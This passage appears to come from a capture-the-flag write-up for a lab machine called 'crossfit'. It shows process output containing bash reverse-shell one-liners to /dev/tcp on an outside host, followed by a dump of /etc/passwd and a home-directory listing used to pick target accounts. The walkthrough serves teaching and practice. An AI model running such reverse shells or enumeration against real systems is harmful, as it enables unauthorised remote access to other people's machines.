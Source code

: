 ```text
www-data 32120  0.0  0.0   2388   752 ?        S    17:35   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.1
www-data 32126  0.0  0.0   3736  2908 ?        S    17:35   0:00 bash -c bash -i >& /dev/tcp/10.10.14.22
www-data 32128  0.0  0.0   3868  3220 ?        S    17:35   0:00 bash -i
```

Hmm...`ps` showed that this was a busy machine...  It looked like I had company \(only one of those shells is mine!\).

```bash
www-data@crossfit:/run$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
isaac:x:1000:1000:,,,:/home/isaac:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:107:114:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:108:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
vsftpd:x:1002:1002::/var/vsftpd:/bin/false
Debian-exim:x:109:117::/var/spool/exim4:/usr/sbin/nologin
ftpadm:x:1003:1004::/srv/ftp:/usr/sbin/nologin
hank:x:1004:1006::/home/hank:/bin/bash
```

I inspected `/etc/passwd` for local user accounts and found that `root`, `isaac`, and `hank` could login with a shell.  These were my most likely targets.

```text
www-data@crossfit:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Sep 21 04:00 .
drwxr-xr-x 18 root  root  4096 Sep  2  2020 ..
drwxr-xr-x  6 hank  hank  4096 Mar 20 17:24 hank
drwxr-xr-x  8 isaac isaac 4096 Mar 21 07:19 isaac
```

